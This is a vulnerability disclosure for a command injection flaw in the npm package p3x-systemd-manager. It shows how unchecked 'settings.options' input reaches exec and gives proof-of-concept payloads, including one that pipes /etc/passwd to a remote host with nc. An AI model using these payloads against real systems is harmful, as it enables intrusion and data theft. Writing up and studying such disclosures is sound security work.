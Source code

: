 # Command Injection in p3x-systemd-manager
## Basic information
Vulnerability Author: Li MuFeng(mufeng2022@hust.edu.cn)

Vulnerable npm package: p3x-systemd-manager

Npm url: https://www.npmjs.com/package/p3x-systemd-manager

Github url: https://github.com/patrikx3/systemd-manager

Vulnerable version: <= v2024.4.113

Vulnerable file: src/watchdog.js
```js
module.exports = (settings) => {
	...
    const options = settings.options || '';
const command = `${settings.sudo ? 'sudo ' : ''}systemctl --plain --no-pager --no-legend ${options} ${types}`;
    ...
}

```
In src/watchdog.js, line 135. The value of the input parameter 'settings.options' is not checked and directly concatenated into the constant 'command'. 

```js
exec(command, {
maxBuffer: 10 * 1024 * 1024
}, 
...
)

```
On line 39 of the same file. The constant 'command' is passed to function 'exec' in a callback function, which leads to a potential Command Injection Vulnerability.

## Payload
settings.js:
```js
{
    ...
    "options": "& touch hack.txt #"
    ...
}

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Through carefully constructed payloads, attackers can execute any command as they want.

## Exploit
Environment: Linux, Node.js

Clone the repository and run following commands to exploit:
```
npm i
npm start
```